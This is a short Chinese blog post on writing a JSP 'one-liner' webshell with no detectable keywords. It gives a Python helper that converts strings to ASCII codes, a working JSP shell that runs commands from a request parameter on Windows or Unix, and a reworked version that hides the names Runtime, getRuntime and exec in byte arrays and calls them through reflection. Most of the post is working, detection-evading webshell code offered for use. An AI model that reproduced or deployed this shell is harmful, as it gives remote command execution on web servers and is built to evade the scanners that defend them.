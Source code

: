 ```yaml
---
title: jsp无关键字一句话
date: 2022-05-16 20:23:20
tags:
      - 一句话
categrious: java
---
```

## jsp无关键字一句话
通过ascii码与字符之间的转换,加上通过反射加载类,实现无关键字一句话

#### py脚本`script_str2ascii`

首先写一个简单的py脚本,转换命令为byte数组

```python
cmd=input("input code")
arr=[]
for char in cmd:
    arr.append(ord(char))
print(arr)
```

#### 开始

接下来找一个简单的小马,进行改造

```jsp
<%
    String cmd = request.getParameter("cmd");
    StringBuffer res = new StringBuffer();
    //加一个系统的判断
    String os = System.getProperty("os.name");
    boolean isWin = false;
    BufferedReader bufferedReader;
    if (os != null && os.toLowerCase().startsWith("windows")) {
        isWin = true;
    }
    try {
        if (isWin == false) {
            bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
        } else {
            bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cmd /C " + cmd).getInputStream()));
        }

        String len;
        while ((len = bufferedReader.readLine()) != null) {
            res.append(len + "\n");
        }

    } catch (Exception e) {
        res.append(e.getMessage());

    }
   out.print("<pre>" + res.toString() + "</pre>");
%>

```

#### 通过反射改变获取类并执行的方式

主要目的是将runtime相关的类和函数通过反射进行修改

```jsp
<%Class<?> aClass = Class.forName("java.lang.Runtime");//这个forName加载类的时候会执行类内的静态代码块
    Method method = aClass.getMethod("getRuntime");
    Object o = method.invoke(null);//这里获取到runtime类
    Method method1 = aClass.getMethod("exec", String.class);
    method1.invoke(o,"calc");
%>
```

通过反射加载runtime类的方式可行,并且成功弹出了计算器

接下来通过ascii数组,替换其中比较敏感的字符串

上面那个小马里面别的不关键的东西懒得写了.....

**这里可以使用byte数组,原因是当前涉及到的字符串中的所有字符ascii码均在127以下**

#### 加入byte数组

通过byte数组修饰以下关键字

```java
<%
    byte[] a={106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101};
    Class<?> aClass = Class.forName(new String(a));//这个forName加载类的时候会执行类内的静态代码块
    byte[] b={103, 101, 116, 82, 117, 110, 116, 105, 109, 101};
    Method method = aClass.getMethod(new String(b));
    Object o = method.invoke(null);//这里获取到runtime类
    byte[] c={101, 120, 101, 99};
    Method method1 = aClass.getMethod(new String(c), String.class);
    method1.invoke(o,request.getParameter("haha"));
%>
```

比较基础的东西,别笑话我呜呜呜呜
